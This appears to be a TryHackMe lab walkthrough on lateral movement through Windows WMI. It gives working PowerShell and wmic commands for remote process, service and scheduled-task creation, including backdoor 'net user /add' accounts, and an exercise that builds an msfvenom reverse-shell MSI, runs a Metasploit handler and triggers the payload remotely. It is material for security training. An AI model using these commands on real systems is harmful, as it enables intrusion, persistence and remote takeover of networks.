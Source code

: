 # Moving Laterally Using WMI

We can perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows' implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways, which we'll discuss.

---

## Connecting to WMI From PowerShell

Before connecting to WMI using PowerShell commands, we need to create a `PSCredential` object with our username and password. This object will be stored in the `$credential` variable and used throughout the techniques in this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then establish a WMI session using either of the following protocols:

- **DCOM**: RPC over IP (port `135/TCP` and ports `49152-65535/TCP`).
- **Wsman**: WinRM (port `5985/TCP` for HTTP or `5986/TCP` for HTTPS).

To establish a WMI session from PowerShell:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet configures the connection options for the WMI session, including the protocol. These options and credentials are passed to the `New-CimSession` cmdlet to establish a session against a remote host.

---

## Remote Process Creation Using WMI

- **Ports**: `135/TCP`, `49152-65535/TCP` (DCERPC), `5985/TCP` (WinRM HTTP), `5986/TCP` (WinRM HTTPS)
- **Required Group Memberships**: Administrators

To remotely spawn a process using WMI:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
    CommandLine = $Command
}
```

On legacy systems, the same can be done using `wmic`:

```cmd
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"
```

---

## Creating Services Remotely with WMI

- **Ports**: `135/TCP`, `49152-65535/TCP` (DCERPC), `5985/TCP` (WinRM HTTP), `5986/TCP` (WinRM HTTPS)
- **Required Group Memberships**: Administrators

To create a service called `THMService2`:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
    Name = "THMService2";
    DisplayName = "THMService2";
    PathName = "net user munra2 Pass123 /add"; # Your payload
    ServiceType = [byte]::Parse("16"); # Win32OwnProcess: Start service in a new process
    StartMode = "Manual"
}
```

Start the service:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Stop and delete the service:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

---

## Creating Scheduled Tasks Remotely with WMI

- **Ports**: `135/TCP`, `49152-65535/TCP` (DCERPC), `5985/TCP` (WinRM HTTP), `5986/TCP` (WinRM HTTPS)
- **Required Group Memberships**: Administrators

To create and execute a scheduled task:

```powershell
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Delete the scheduled task:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

---

## Installing MSI Packages Through WMI

- **Ports**: `135/TCP`, `49152-65535/TCP` (DCERPC), `5985/TCP` (WinRM HTTP), `5986/TCP` (WinRM HTTPS)
- **Required Group Memberships**: Administrators

To install an MSI package:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
    PackageLocation = "C:\Windows\myinstaller.msi";
    Options = "";
    AllUsers = $false
}
```

On legacy systems, use `wmic`:

```cmd
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

---

## Let's Get to Work!

To complete this exercise, connect to `THMJMP2` using the credentials assigned to you on Task 1 from [this link](http://distributor.za.tryhackme.com/creds). For this exercise, we assume the following credentials:

- **User**: `ZA.TRYHACKME.COM\t1_corine.waters`
- **Password**: `Korine.1994`

### Steps:

1. Create an MSI payload with `msfvenom`:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
   ```

2. Copy the payload to the target using SMB:

   ```bash
   smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
   ```

3. Start a Metasploit handler:

   ```bash
   msf6 exploit(multi/handler) > set LHOST lateralmovement
   msf6 exploit(multi/handler) > set LPORT 4445
   msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
   msf6 exploit(multi/handler) > exploit
   ```

4. Start a WMI session from `THMJMP2`:

   ```powershell
   $username = 't1_corine.waters';
   $password = 'Korine.1994';
   $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
   $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
   $Opt = New-CimSessionOption -Protocol DCOM
   $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
   ```

5. Trigger the payload:

   ```powershell
   Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
       PackageLocation = "C:\Windows\myinstaller.msi";
       Options = "";
       AllUsers = $false
   }
   ```